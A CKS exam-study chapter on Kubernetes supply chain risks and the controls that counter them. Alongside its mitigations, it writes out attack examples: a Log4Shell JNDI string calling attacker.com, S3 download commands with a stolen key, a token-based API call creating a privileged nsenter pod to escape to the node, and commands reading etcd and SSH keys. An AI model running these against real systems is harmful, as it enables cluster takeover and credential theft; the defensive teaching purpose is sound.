

# Chapter 2: Risks of Inadequate Supply Chain Management

## Why This Matters for CKS

Understanding the *consequences* of supply chain failures gives you the motivation and context to apply the controls in later chapters. The CKS exam doesn't just ask you to run `trivy image` — it expects you to know **why** scanning matters, **what** happens when you skip it, and **which specific misconfigurations** open the door to each class of attack.

This chapter maps each supply chain risk to:
- A real-world attack or CVE.
- The specific Kubernetes resource or configuration that is vulnerable.
- The exact control from later chapters that mitigates it.

---

## The Risk Landscape — Overview

Poor supply chain practices in Kubernetes don't produce isolated incidents. They create **cascading failures** where one weak link compromises everything downstream. The five core risk categories from KodeKloud, plus three additional Kubernetes-specific risks, form a complete threat taxonomy:



---

## Risk 1: Unpatched Vulnerabilities Leading to Major Data Breaches


### The Core Risk

Every container image is built from a stack of software: OS packages, language runtimes, frameworks, and application code. Every layer of that stack can contain known vulnerabilities (CVEs). When teams skip scanning — or scan once and never again — those vulnerabilities remain in production indefinitely.

The insidious part: **you don't need to write insecure code to be vulnerable.** The vulnerability is in a library you imported, in an OS package you didn't know was installed, or in a base image you pulled six months ago and never rebuilt.

### Real-World Example — Log4Shell (CVE-2021-44228)

```
CVSS Score: 10.0 (CRITICAL — maximum possible)
Affected: Apache Log4j 2.x (Java logging library)
Attack vector: Remote code execution via crafted log message
Exploited: Within 12 hours of public disclosure

Attack chain:
  1. Attacker sends HTTP request: User-Agent: ${jndi:ldap://attacker.com/exploit}
  2. Log4j processes the string, makes LDAP lookup to attacker.com
  3. Attacker's LDAP server returns a Java class
  4. Log4j loads and executes the class — full RCE on the server
  5. In a Kubernetes pod: attacker now has shell inside the container

Why supply chain: Log4j was a TRANSITIVE dependency.
  Most affected teams had no idea it was in their images.
  It was not in their Dockerfile — it was pulled by a Maven dependency
  of a dependency of a dependency.
```

**Kubernetes-specific impact:**
```bash
# A vulnerable Java app container:
FROM openjdk:17                          # Includes nothing special
RUN mvn package                         # Pulls spring-boot → spring-core →
                                        # → logback → log4j-core (transitively)
# Result: log4j-core 2.14.1 is in the image — CVE-2021-44228

# Trivy would have caught this:
trivy image myapp:v1.0 --severity CRITICAL
# CRITICAL: CVE-2021-44228 (log4j-core 2.14.1) — RCE
# Exit code 1 → CI pipeline fails → never deployed
```

### Real-World Example — Dirty Pipe (CVE-2022-0847)

```
CVSS Score: 7.8 (HIGH)
Affected: Linux kernel 5.8–5.16.11
Attack vector: Local privilege escalation — write to read-only files

In Kubernetes:
  1. Attacker achieves code execution inside a container
  2. Container shares the host kernel (unlike Kata/gVisor)
  3. Attacker exploits Dirty Pipe → writes to /etc/passwd on the HOST
  4. Result: root access on the Kubernetes node
  5. From node: access to all pod secrets, kubelet credentials, etcd

Why supply chain: A cluster running on unpatched nodes is vulnerable.
  Node OS patching is part of the supply chain — not just container images.
```

### The Accumulation Problem

Most teams don't have a single critical CVE sitting unpatched. They have hundreds of medium-severity CVEs accumulating over months:

```
Typical container image age in production: 6–18 months
New CVEs published per year: ~25,000 (NVD, 2024)
CVEs per average container image after 6 months: 50–200
Critical CVEs after 12 months without patching: 5–20

Risk: Not one catastrophic vuln, but a mountain of smaller ones
that collectively give an attacker everything they need.
```

### Business Impact

| Impact Category | Specific Consequence |
|----------------|---------------------|
| **Financial** | Average cost of a data breach: $4.88M (IBM 2024) |
| **Regulatory** | GDPR fines up to 4% of annual global revenue |
| **Operational** | Emergency incident response consuming engineering time |
| **Reputational** | Customer churn, loss of enterprise contracts |
| **Legal** | Class action lawsuits, regulatory investigations |

### Mitigation Controls

```bash
# 1. Trivy in CI/CD — block deployment if CRITICAL CVEs found (Chapter 10)
trivy image myapp:v1.2.3 \
  --severity HIGH,CRITICAL \
  --exit-code 1 \
  --ignore-unfixed   # Only fail on CVEs with available fixes

# 2. Regular scheduled scans of production images
# Even images not rebuilt since last week may now have new CVEs
trivy image --severity CRITICAL $(kubectl get pods -A \
  -o jsonpath='{range .items[*]}{.spec.containers[*].image}{"\n"}{end}' | sort -u)

# 3. Distroless images — fewer packages = fewer possible CVEs (Chapter 4)
FROM gcr.io/distroless/java17-debian12
# No shell, no apt, no curl — massive reduction in attack surface

# 4. SBOM — know every component before a CVE hits (Chapters 3, 5, 6)
syft scan myapp:v1.2.3 -o spdx-json > sbom.json
# When CVE announced: query SBOM → instant list of affected images
```

---

## Risk 2: Risks from Untrusted Third-Party Components


### The Core Risk

Modern software is not written from scratch — it is assembled from third-party components: npm packages, PyPI libraries, Maven artifacts, apt packages, Docker base images. The average enterprise application has 528 open-source dependencies (Synopsys OSSRA 2024). Each one is a potential attack vector if unverified.

### Attack Pattern 1: Typosquatting

```
Attacker publishes:    reqeusts (PyPI)    ← note the typo
Legitimate package:    requests

Developer types:       pip install reqeusts  ← accidental typo
Result: malicious package installed alongside legitimate code
        hidden in the container image
        executes on container startup
```

**Real example:** In 2022, a researcher published 218 typosquatted npm packages (e.g., `lodash_` with underscore). These packages exfiltrated environment variables — including cloud credentials — on installation.

```bash
# Detection: Verify package checksums before publishing to internal registry
# Mitigation: Use a private PyPI/npm mirror that only proxies approved packages

# Nexus / JFrog Artifactory as a proxy:
pip install requests --index-url https://nexus.company.com/pypi/simple
# All packages sourced from internal mirror, pre-scanned
```

### Attack Pattern 2: Dependency Confusion

```
Company has internal package: mycompany-utils (version 1.0.0)
Served from: internal npm registry at npm.mycompany.com

Attacker action:
  1. Discovers internal package name (often in package.json in public repos)
  2. Publishes mycompany-utils version 9.9.9 to public npm
  3. npm prefers the HIGHER version number from the PUBLIC registry
  4. Developer runs npm install → downloads attacker's package

Real incident: Alex Birsan (2021) used this technique to compromise
              Apple, Microsoft, PayPal, and 33 other companies simultaneously.
              His malicious packages ran on internal build servers.
```

**Kubernetes impact:** The malicious package runs during the container build. It can:
- Exfiltrate CI/CD secrets (`GITHUB_TOKEN`, registry credentials, kubeconfig).
- Inject code into the built application binary.
- Add a reverse shell to the container image.

```bash
# Mitigation: Use scoped packages for internal dependencies
# package.json:
{
  "dependencies": {
    "@mycompany/utils": "1.0.0"   # Scoped — @mycompany/ namespace reserved on npm
  }
}

# Additionally: pin public registry in .npmrc
registry=https://nexus.company.com/npm-proxy/
@mycompany:registry=https://nexus.company.com/npm-private/
```

### Attack Pattern 3: Malicious Base Images

```
Attacker publishes: docker.io/nginx-official  ← note: NOT official nginx
Legitimate image:   docker.io/library/nginx   ← Docker Official Image

Developer uses: FROM nginx-official:1.25
Result: malicious image layer included in every downstream image
        typically contains: crypto miners, reverse shells, data exfiltrators
```

```bash
# Mitigation 1: Only use official Docker Hub images (library/ namespace)
FROM library/nginx:1.25   # Official image
FROM nginx:1.25           # Same — shorthand for library/nginx

# Mitigation 2: Pin by digest (immune to tag replacement attacks)
FROM nginx@sha256:a484819eb60211f5299034ac80f6a681b06f89e65866ce91f356ed7c72af059c

# Mitigation 3: OPA Gatekeeper to block non-approved registries (Chapter 9)
# Mitigation 4: Cosign verify base image signature before building

cosign verify \
  --certificate-identity-regexp="https://github.com/nginxinc" \
  --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
  nginx:1.25
```

### Attack Pattern 4: Compromised Legitimate Package

This is the hardest to detect — the legitimate maintainer's account is compromised, and a backdoored version is published under the real package name.

```
Real example: event-stream (npm, 2018)
  - Hugely popular package (2M weekly downloads)
  - New maintainer added a malicious dependency (flatmap-stream)
  - flatmap-stream contained encrypted payload targeting Bitcoin wallets
  - Hidden in the package for 2.5 months before discovery

In Kubernetes: any container built with event-stream during that window
  was compromised — regardless of code review, tests, or scanning
  (the malicious code was obfuscated and encrypted)
```

**Why this is so hard to stop:** Legitimate signature, legitimate maintainer account, passed all automated checks. The only defences are:
1. Lock dependency versions (`package-lock.json`, `requirements.txt` with exact versions).
2. Require humans to review dependency changes in PRs.
3. Monitor for unexpected package updates (Dependabot, Renovate).

---

## Risk 3: Exposure Through Inadequate Credential Security


### The Core Risk

Credentials — API keys, database passwords, TLS private keys, cloud IAM tokens — are the master keys to your systems. When they are poorly managed, attackers don't need sophisticated exploits. They just use the credentials they find.

In Kubernetes, credentials appear in multiple places — and many of them are insecure by default:

```
Common credential exposure points in Kubernetes:

1. Hardcoded in Dockerfile or application code
   ENV DATABASE_PASSWORD=mysecretpassword   ← visible in image history

2. In ConfigMap (not encrypted, readable by anyone with kubectl get cm)
   data:
     db_password: "mysecretpassword"        ← plaintext in etcd

3. In Kubernetes Secret without EncryptionConfiguration
   data:
     password: bXlzZWNyZXRwYXNzd29yZA==   ← just base64, not encrypted

4. In CI/CD environment variables (Codecov attack)
   env:
     REGISTRY_TOKEN: ${{ secrets.REGISTRY_TOKEN }}  ← stolen by compromised CI tool

5. In container's /proc/PID/environ (leaked by accident)
   cat /proc/1/environ | tr '\0' '\n' | grep -i secret
```

### The Hardcoded Secret Attack Chain

```bash
# Developer pushes code with hardcoded secret to GitHub
git push origin main
# GitHub Secret Scanning detects it... sometimes
# But: historical commits are permanently in git history

# Attacker finds it:
# 1. GitHub dorking: "AKIA" site:github.com   ← AWS access key prefix
# 2. truffleHog scan of public repos
# 3. GitLab public repo scan by automated bots

# With the AWS key:
aws sts get-caller-identity   # Who am I?
aws s3 ls                     # List all buckets
aws s3 cp s3://internal-data/ ./ --recursive   # Download everything

# Or with a kubeconfig:
kubectl get secrets -A   # All secrets across all namespaces
kubectl exec -n kube-system etcd-master -- etcdctl get / --prefix   # All of etcd
```

### Real-World Examples

**Uber (2022):** An attacker obtained Uber's AWS credentials from a GitHub repository, then used them to access Uber's internal systems. The credentials were in a script that had been committed years earlier. Cost: $148M settlement (earlier 2016 breach had similar pattern).

**Toyota (2023):** A GitHub repository containing access credentials to a cloud environment was publicly accessible for nearly 5 years. 215,000 customer records were potentially exposed.

### Kubernetes-Specific Credential Risks

```bash
# Risk 1: ServiceAccount token auto-mounting (default: true in old K8s)
# Any pod can read its own SA token at:
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# If the SA has broad permissions, this token is a skeleton key

# Fix: Disable auto-mounting for pods that don't need API access
apiVersion: v1
kind: ServiceAccount
metadata:
  name: webapp-sa
automountServiceAccountToken: false   # Opt-in only

# Risk 2: Unencrypted Secrets in etcd
kubectl get secret db-password -n production -o jsonpath='{.data.password}' | base64 -d
# Anyone with kubectl get secret access sees the plaintext value

# Fix: EncryptionConfiguration (Chapter 9 — Microservice Vulnerabilities)
# Also: RBAC restricting who can get secrets

# Risk 3: Secrets as environment variables (leaked via /proc)
# Use volume mounts instead:
spec:
  containers:
  - name: app
    volumeMounts:
    - name: secrets
      mountPath: /etc/secrets
      readOnly: true
  volumes:
  - name: secrets
    secret:
      secretName: db-credentials
```

### Detection and Mitigation

```bash
# Scan for secrets in images (Trivy secret scanner)
trivy image --scanners secret myapp:v1.2.3

# Scan git repository history for leaked secrets
truffleHog github --repo https://github.com/myorg/myrepo
gitleaks detect --source . --report-path report.json

# Check if any secrets are stored in ConfigMaps (mistake)
kubectl get configmap -A -o json | jq '.items[] | select(.data | to_entries[] | .value | test("password|secret|token|key"; "i"))'

# Audit what ServiceAccounts can access secrets
kubectl auth can-i get secrets --all-namespaces --as=system:serviceaccount:production:webapp-sa
```

---

## Risk 4: Vulnerabilities from Overly Permissive Configuration Settings


### The Core Risk

A Kubernetes cluster with default settings is not secure. By default:
- All pods can communicate with all other pods (no NetworkPolicy).
- ServiceAccounts are auto-mounted in every pod.
- Namespaces have no resource quotas.
- There are no PSA restrictions.
- `system:unauthenticated` may have API discovery rights.

Overly permissive settings mean a breach in one microservice instantly becomes a breach in every microservice.

### The Lateral Movement Attack Chain

```
Starting point: RCE in a poorly secured webapp pod

Without NetworkPolicy:
  1. Attacker has shell in webapp pod (10.0.1.5)
  2. kubectl exec webapp-pod -- curl http://10.0.2.7:5432   ← PostgreSQL direct
  3. kubectl exec webapp-pod -- curl http://10.0.3.1:8080/admin  ← Admin API
  4. kubectl exec webapp-pod -- curl http://10.0.4.2:2379   ← etcd directly
  5. kubectl exec webapp-pod -- curl http://169.254.169.254/   ← Cloud metadata

  Complete cluster compromise in minutes.

With NetworkPolicy default-deny + explicit allows:
  1. Attacker has shell in webapp pod (10.0.1.5)
  2. curl http://10.0.2.7:5432 → Connection refused (NetworkPolicy blocks)
  3. curl http://10.0.3.1:8080/admin → Connection refused
  4. Only allowed: curl http://api-service:8080 → one specific service
  5. Blast radius contained to webapp pod only.
```

### RBAC Misconfiguration — The Most Common Kubernetes Privilege Escalation

```yaml
# DANGEROUS: Wildcard permissions for a ServiceAccount
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: dangerous-binding
subjects:
- kind: ServiceAccount
  name: myapp-sa
  namespace: production
roleRef:
  kind: ClusterRole
  name: cluster-admin   # This is FULL ROOT ACCESS to the cluster
  apiGroup: rbac.authorization.k8s.io
```

```bash
# Attacker exploiting this:
# From inside any pod using myapp-sa:
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# List all secrets in all namespaces
curl -k -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/secrets

# Create a privileged pod to escape to the node
curl -k -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST https://kubernetes.default.svc/api/v1/namespaces/kube-system/pods \
  -d '{"spec":{"hostPID":true,"hostNetwork":true,"containers":[{"name":"escape","image":"alpine","securityContext":{"privileged":true},"command":["nsenter","--target","1","--mount","--uts","--ipc","--net","--pid","--","bash"]}]}}'
# Result: shell on the host node with full root access
```

### Common Permissive Configuration Patterns

| Misconfiguration | Risk Level | What It Enables |
|-----------------|------------|-----------------|
| `cluster-admin` bound to any non-admin SA | CRITICAL | Full cluster control |
| `hostNetwork: true` | HIGH | See all node traffic, bypass NetworkPolicy |
| `hostPID: true` | HIGH | See all processes on node, PTRACE attacks |
| `hostPath` volume mount | HIGH | Read/write any file on the host |
| No NetworkPolicy (default) | HIGH | Unrestricted pod-to-pod traffic |
| `privileged: true` | CRITICAL | Full kernel capabilities, container escape |
| `automountServiceAccountToken: true` | MEDIUM | Token available even when not needed |
| No PSA enforcement | MEDIUM | Teams can deploy any configuration |
| Wildcard RBAC rules (`*` verbs, `*` resources) | HIGH | Overly broad API access |

### Audit Commands

```bash
# Find all ClusterRoleBindings with cluster-admin
kubectl get clusterrolebindings -o json | \
  jq '.items[] | select(.roleRef.name=="cluster-admin") | {name: .metadata.name, subjects: .subjects}'

# Find all pods with hostPID or hostNetwork
kubectl get pods -A -o json | \
  jq '.items[] | select(.spec.hostPID==true or .spec.hostNetwork==true) | 
  {name: .metadata.name, ns: .metadata.namespace}'

# Find all pods with privileged containers
kubectl get pods -A -o json | \
  jq '.items[] | select(.spec.containers[].securityContext.privileged==true) |
  {name: .metadata.name, ns: .metadata.namespace}'

# Find namespaces without NetworkPolicy (no default-deny)
for ns in $(kubectl get ns -o name | cut -d/ -f2); do
  count=$(kubectl get netpol -n $ns 2>/dev/null | wc -l)
  if [ "$count" -le 1 ]; then echo "No NetworkPolicy: $ns"; fi
done
```

---

## Risk 5: Container Security Misconfigurations and Host Compromise


### The Core Risk

Containers provide **process isolation**, not full virtualisation. They share the host kernel. A misconfigured container — one running as root, with excessive capabilities, or with dangerous mounts — gives an attacker a much shorter path to the host.

### Container Escape Attack Chain

```
Scenario: Privileged container escape

1. Container runs with privileged: true  (or: hostPID + CAP_SYS_PTRACE)
2. Inside the container:
   mount /dev/sda1 /mnt   # Mount host filesystem
   chroot /mnt            # Change root to host filesystem
   cat /etc/kubernetes/pki/etcd/server.key   # Read etcd private key
   cat ~/.ssh/id_rsa      # Read admin SSH key

3. With etcd key:
   etcdctl put /registry/secrets/kube-system/bootstrap-token-abcdef ...
   # Inject a bootstrap token → authenticate to the cluster

4. With SSH key:
   ssh root@all-worker-nodes   # SSH to any node
```

**Real CVE example — CVE-2019-5736 (runc container escape):**
```
Affected: All containers using runc < 1.0-rc6
Attack: Attacker with write access to a running container
        could overwrite the host's runc binary
Result: Next time any container started on that node, attacker's
        code ran as root on the host

This affected: Docker, containerd, Kubernetes, all major platforms
Fix: Update runc + container runtime
Detection: Check runc version on all nodes
```

```bash
# Check runc version on a node
kubectl debug node/<node-name> -it --image=ubuntu -- runc --version
# runc version 1.1.9  ← safe
# runc version 1.0.0-rc5 ← vulnerable to CVE-2019-5736
```

### The Most Dangerous Misconfigurations

```yaml
# MOST DANGEROUS — never deploy this in production:
spec:
  hostPID: true               # See all host processes
  hostIPC: true               # Share host IPC namespace
  hostNetwork: true           # Use host network stack
  containers:
  - name: dangerous
    securityContext:
      privileged: true                    # Full kernel access
      allowPrivilegeEscalation: true      # Can escalate to root
      runAsUser: 0                        # Run as root
      capabilities:
        add: ["ALL"]                      # All Linux capabilities
    volumeMounts:
    - mountPath: /host
      name: host-root                     # Mount host filesystem
  volumes:
  - name: host-root
    hostPath:
      path: /                            # Entire host filesystem
```

```yaml
# SECURE — what every production container should look like:
spec:
  containers:
  - name: app
    securityContext:
      runAsNonRoot: true
      runAsUser: 1000
      runAsGroup: 3000
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]           # Drop everything first
        add: ["NET_BIND_SERVICE"]  # Add back only what's needed (if port < 1024)
      seccompProfile:
        type: RuntimeDefault    # Kernel syscall filtering
```

### Supply Chain Connection — Why Misconfiguration Is a Supply Chain Risk

You might wonder why container misconfigurations appear in a supply chain security chapter. The connection is this:

**Container security settings are defined at deploy time — and deploy-time security is part of the supply chain.** If your CI/CD pipeline doesn't lint manifests with KubeLinter (Chapter 7) and doesn't enforce PSA (PSS restricted profile), then misconfigured containers are a systematic supply chain failure, not a one-off mistake.

```bash
# KubeLinter catches misconfigurations in the CI pipeline (Chapter 7)
kube-linter lint deployment.yaml
# Error: container "app" does not have a read-only root filesystem set
# Error: container "app" has no resource limits
# Error: container "app" does not drop all capabilities

# PSA enforcement — last line of defence at cluster admission
kubectl label namespace production pod-security.kubernetes.io/enforce=restricted
# Any pod violating restricted profile is rejected at apply time
```

---

## Risk 6: Unsigned and Unverified Images (Kubernetes-Specific)

*Not in KodeKloud source — critical for modern K8s security*

### The Core Risk

An image with no cryptographic signature provides **no provenance guarantee**. You cannot verify:
- Who built it.
- When it was built.
- From which source code.
- Whether it has been tampered with after publishing.

A tag like `myapp:v1.2.3` is mutable — it can be overwritten at the registry level. An attacker who gains registry write access can replace a legitimate image with a malicious one under the same tag.

```
Timeline of a tag replacement attack:
  Day 1: myapp:v1.2.3 published (SHA: abc123) — legitimate
  Day 90: Attacker gains registry write access via compromised CI token
  Day 90: Attacker pushes malicious image as myapp:v1.2.3 (SHA: xyz789)
  Day 91: New deployments pull myapp:v1.2.3 — get malicious image
  Day 91: No alert — same tag, same name

  With image signing (Cosign):
  Day 91: Deployment rejected — image SHA xyz789 has no valid signature
          from the expected builder identity
```

### Mitigation — Image Signing with Cosign

```bash
# Sign an image after pushing (Chapter 8)
cosign sign \
  --key cosign.key \
  registry.company.com/myapp:v1.2.3

# Verify before deploying
cosign verify \
  --key cosign.pub \
  registry.company.com/myapp:v1.2.3

# Policy Controller — reject unsigned images at admission (cluster-wide)
apiVersion: policy.sigstore.dev/v1beta1
kind: ClusterImagePolicy
metadata:
  name: require-signed-images
spec:
  images:
  - glob: "registry.company.com/**"
  authorities:
  - key:
      data: |
        -----BEGIN PUBLIC KEY-----
        <cosign public key>
        -----END PUBLIC KEY-----
```

---

## Risk 7: Dependency Confusion Attacks

*Not in KodeKloud source — increasingly common attack vector*

Already covered in detail under Risk 2, but worth restating as its own category because it is specifically a **package manager configuration failure**, distinct from using a known-malicious package.

```bash
# Detection: Audit your package manager configuration
cat .npmrc
# Should specify scoped packages for all internal deps
# Should set registry to internal mirror for unscoped packages

cat pip.conf
# Should point to internal PyPI proxy, not PyPI directly
# [global]
# index-url = https://nexus.company.com/pypi/simple/

# Test: Can you install an internal package name from the public registry?
pip install mycompany-utils --dry-run   # Should fail if proxy is correctly configured
```

---

## Risk 8: Compromised CI/CD Pipeline

*Not in KodeKloud source — the highest-impact supply chain attack vector*

### Why This Is the Most Dangerous Risk

A compromised CI/CD pipeline is the software equivalent of the SolarWinds attack. The build system has:
- Access to all source code.
- Credentials to push images to production registries.
- Often: a kubeconfig or ServiceAccount token to deploy to the cluster.
- Trust: every artifact it produces is considered legitimate.

```
CI/CD system compromise gives an attacker:
  ├── Source code (all repositories)
  ├── Production secrets (CI environment variables)
  ├── Registry write access (can push images to production registry)
  ├── Signing keys (can sign malicious images as legitimate)
  └── Cluster access (can deploy anything to production)

This is essentially unlimited access — worse than stealing credentials
because the attacker can also modify what gets built.
```

### Attack Vectors

```
1. Compromised GitHub Actions / GitLab CI secret
   → Attacker injects into CI environment → exfiltrates all secrets

2. Malicious third-party GitHub Action
   → uses: some-vendor/action@v1   ← @v1 tag can change
   → Publisher pushes malicious code to v1 tag

   Fix: Pin actions by digest
   uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  ← SHA

3. Self-hosted runner compromise
   → Runner has broad filesystem access, registry push access
   → Compromise runner → compromise all builds that use it

4. Artifact repository compromise (Nexus, Artifactory, Harbor)
   → Artifacts cached here are served to all builds
   → Poisoned cached artifact = all subsequent builds compromised
```

### Mitigations

```yaml
# Pin GitHub Actions by SHA, not tag
# .github/workflows/build.yml
jobs:
  build:
    steps:
    - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  # v4.2.2
    # NOT: uses: actions/checkout@v4  ← tag is mutable
    
    - uses: aquasecurity/trivy-action@d2a392a13760cb73ae9110d4b0801c7b36d45ca7  # 0.28.0

# Use OpenID Connect (OIDC) instead of long-lived CI secrets
# GitHub Actions OIDC → AWS assume role → short-lived credentials
# No permanent AWS credentials stored in CI
permissions:
  id-token: write   # Enable OIDC
  contents: read
steps:
- uses: aws-actions/configure-aws-credentials@v4
  with:
    role-to-assume: arn:aws:iam::123456789:role/github-actions
    aws-region: us-east-1
```

---

## Summary — The Cumulative Impact


The five KodeKloud risk categories — plus the three additional Kubernetes-specific risks — don't operate in isolation. They form an attack chain where exploiting one risk enables the next:

```
Attack chain: Full cluster compromise from supply chain failures

Step 1: Dependency confusion → malicious package in build
  (Risk 7 — no internal package registry controls)
    ↓
Step 2: Malicious package exfiltrates CI secrets
  (Risk 8 — compromised CI/CD, no OIDC)
    ↓
Step 3: Attacker uses registry credentials to push backdoored image
  (Risk 6 — no image signing, tag is mutable)
    ↓
Step 4: Backdoored image deployed (no admission webhook)
  (Risk 4 — no ImagePolicyWebhook or signature verification)
    ↓
Step 5: Backdoor runs as root, mounts host filesystem
  (Risk 5 — no PSA, no SecurityContext)
    ↓
Step 6: Attacker reads cluster credentials from host
  (Risk 3 — unencrypted secrets on disk)
    ↓
Step 7: Attacker moves laterally to all pods
  (Risk 4 — no NetworkPolicy default-deny)
    ↓
Step 8: Attacker reads all data, exfiltrates unpatched DB
  (Risk 1 — unpatched vulnerability in database container)

Result: Complete cluster compromise.
Each step was prevented by controls introduced in chapters 3–10 of this module.
```

---

## Risk Severity Matrix

| Risk | Likelihood | Impact | Priority | Chapter That Mitigates |
|------|-----------|--------|----------|----------------------|
| Unpatched CVEs | Very High | High | P1 | Ch. 10 (Trivy) |
| Untrusted components | High | Critical | P1 | Ch. 10 (Trivy), Ch. 3–6 (SBOM) |
| Credential exposure | High | Critical | P1 | Microservice Ch. 8–9 |
| Permissive config | Very High | High | P1 | Ch. 7 (KubeLinter), Ch. 9 (Webhooks) |
| Container escape | Medium | Critical | P1 | Ch. 7 (KubeLinter), PSA |
| Unsigned images | Medium | High | P2 | Ch. 8 (Image Security) |
| Dependency confusion | Low–Medium | Critical | P2 | Internal registry + scoping |
| CI/CD compromise | Low | Critical | P2 | OIDC, pinned actions |

---

## Quick Reference — Detection Commands

```bash
# === VULNERABILITY SCANNING ===
trivy image <image> --severity HIGH,CRITICAL

# === SECRET DETECTION ===
trivy image --scanners secret <image>
truffleHog github --repo <url>

# === RBAC AUDIT ===
kubectl auth can-i --list --as=system:serviceaccount:<ns>:<sa>
kubectl get clusterrolebindings -o json | jq '.items[] | select(.roleRef.name=="cluster-admin")'

# === PRIVILEGED POD DETECTION ===
kubectl get pods -A -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged==true)'

# === NETWORK POLICY GAPS ===
for ns in $(kubectl get ns -o name | cut -d/ -f2); do
  count=$(kubectl get netpol -n $ns 2>/dev/null | grep -v NAME | wc -l)
  [ "$count" -eq 0 ] && echo "NO NetworkPolicy: $ns"
done

# === UNSIGNED IMAGE CHECK ===
cosign verify --key cosign.pub <image>

# === SBOM QUERY (post-Log4Shell style) ===
syft scan <image> -o spdx-json | \
  jq '.packages[] | select(.name | test("log4j"; "i")) | {name, version}'
```

---

## CKS Exam Tips

1. **Risk → Control mapping:** For every risk in this chapter, know the exact Kubernetes control that prevents it. The exam often presents a scenario ("a pod is reading host filesystem") and asks for the remediation (`readOnlyRootFilesystem: true` + drop `ALL` capabilities + remove `hostPath` volume).

2. **Misconfigurations are the most testable risk:** Unpatched CVEs are a Trivy question; misconfigurations are a YAML question. You will be asked to fix SecurityContext, add NetworkPolicy, or remove hostPath mounts.

3. **Know the privilege escalation chain:** The exam may give you a misconfigured cluster and ask "which pod could compromise the host?" Look for: `privileged: true`, `hostPID: true`, `hostPath: /`, `cluster-admin` SA binding.

4. **Base64 ≠ encryption:** If asked why a Secret in a ConfigMap is insecure, the answer is that ConfigMaps are plaintext and readable by anyone with `kubectl get cm`. Secrets are base64 (not encrypted without `EncryptionConfiguration`).

5. **NetworkPolicy default-deny is the most impactful single control:** If the exam asks "what single change most limits lateral movement after a container compromise," the answer is a default-deny NetworkPolicy.

---

## Summary

Poor supply chain management in Kubernetes is not a single failure — it is a systematic absence of controls at multiple stages. The eight risks covered in this chapter represent the most common real-world attack vectors against Kubernetes supply chains:

The five KodeKloud risks (unpatched CVEs, untrusted components, credential exposure, permissive configuration, container escape) are compounded by three Kubernetes-specific risks (unsigned images, dependency confusion, compromised CI/CD). In practice, these risks form attack chains where each exploited risk enables the next.

The remaining chapters in this module provide the specific technical controls that break each link in these chains: SBOMs make dependencies visible, distroless images shrink the attack surface, KubeLinter catches misconfigurations, image signing prevents tampering, ImagePolicyWebhook enforces admission controls, and Trivy scanning blocks known CVEs from ever reaching production.

---

## What's Next

Chapter 3 introduces **SBOM (Software Bill of Materials)** — the foundational tool for making your software supply chain transparent. An SBOM is the master inventory of every component in your software. Without it, you are responding to CVEs blind. With it, you can answer "are we affected?" in seconds rather than days.

The direct connection to this chapter: Risk 1 (unpatched CVEs) and Risk 2 (untrusted components) are both dramatically mitigated by having a complete, queryable SBOM for every container image in your cluster.
